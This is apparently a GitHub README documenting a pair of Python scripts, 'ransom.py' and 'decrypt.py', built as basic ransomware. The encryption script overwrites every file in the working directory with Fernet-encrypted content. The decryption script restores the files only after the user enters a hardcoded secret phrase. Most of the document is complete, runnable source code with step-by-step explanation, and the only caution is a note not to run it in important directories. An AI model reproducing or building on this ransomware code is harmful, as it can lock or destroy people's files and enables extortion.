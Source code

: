 # File Encryption and Decryption Script Documentation

This documentation provides an overview of two Python scripts designed for encrypting and decrypting files in a directory using the `cryptography` library's `Fernet` module.

---

## Requirements

- Python 3
- `cryptography` package (Install via `pip install cryptography`)

---

## Encryption Script (`ransom.py`)

The **encryption script** will encrypt all files in the directory except itself, the decryption script, and a key file, which it generates to store the encryption key.

### Script Overview

```python
#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# Empty list to store files to be encrypted
files = []

# Loop through files in the current directory
for file in os.listdir():
    if file == "ransom.py" or file == "thekey.key" or file == "decrypt.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

# Generate an encryption key
key = Fernet.generate_key()

# Save the key to "thekey.key"
with open("thekey.key", "wb") as thekey:
    thekey.write(key)

# Encrypt each file in the "files" list
for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)
    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)

print("All files in this directory have been encrypted!")
```

### Detailed Breakdown

1. **Import Necessary Modules**
   - `os`: Used to list files in the directory.
   - `Fernet`: Used to create encryption keys and perform encryption operations.

2. **Identify Files for Encryption**
   - The script initializes an empty list `files`.
   - It iterates through all files in the directory, skipping `ransom.py`, `decrypt.py`, and `thekey.key`.
   - Files eligible for encryption are appended to the `files` list.

3. **Generate and Save the Encryption Key**
   - A `Fernet` encryption key is generated.
   - The key is saved to a file named `thekey.key` for later use in decryption.

4. **Encrypt the Files**
   - For each file in `files`:
     - The file's contents are read.
     - The contents are encrypted using the generated key.
     - The encrypted contents are written back to the file, overwriting the original data.

5. **Completion Message**
   - A message is printed indicating that all files have been encrypted.

---

## Decryption Script (`decrypt.py`)

The **decryption script** reverses the encryption process, allowing files to be decrypted using the stored key, provided the user knows the correct secret phrase.

### Script Overview

```python
#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# Find files in the directory
files = []

for file in os.listdir():
    if file == "ransom.py" or file == "thekey.key" or file == "decrypt.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

# Read the encryption key
with open("thekey.key", "rb") as key:
    secretkey = key.read() 

# Define a secret phrase
secretphrase = "table"

# Prompt user for the secret phrase
user_phrase = input("Enter the secret phrase to decrypt your files: ")

# Check if the provided phrase is correct
if user_phrase == secretphrase:
    for file in files:
        with open(file, "rb") as thefile:
            contents = thefile.read()
        contents_decrypted = Fernet(secretkey).decrypt(contents)
        with open(file, "wb") as thefile:
            thefile.write(contents_decrypted)
        print("Your files are now decrypted.")
else:
    print("Sorry, wrong phrase.")
```

### Detailed Breakdown

1. **Import Necessary Modules**
   - `os`: Used to identify files in the directory.
   - `Fernet`: Used to decrypt the encrypted files.

2. **Identify Files for Decryption**
   - Similar to the encryption script, this script identifies all files in the directory that should be decrypted and adds them to the `files` list.

3. **Retrieve the Encryption Key**
   - The script reads the key from `thekey.key`, which was generated and saved during encryption.

4. **Secret Phrase Verification**
   - A predefined secret phrase (`table`) is set.
   - The script prompts the user to input the secret phrase.
   - If the entered phrase matches, the script proceeds with decryption; otherwise, it displays an error message.

5. **Decrypt the Files**
   - If the secret phrase is correct, the script:
     - Reads the encrypted contents of each file.
     - Decrypts the contents using the key.
     - Writes the decrypted contents back to the file, restoring the original data.

6. **Completion or Error Message**
   - A success message is printed if the decryption is completed.
   - If the secret phrase is incorrect, an error message is shown.

---

## Usage Notes

- **Running the Scripts**:
  - Run `ransom.py` to encrypt files in the current directory.
  - Run `decrypt.py` to decrypt the files, provided the correct secret phrase is entered.
- **Important Security Note**: 
  - DO NOT USE IN IMPORTANT DIRECTORIES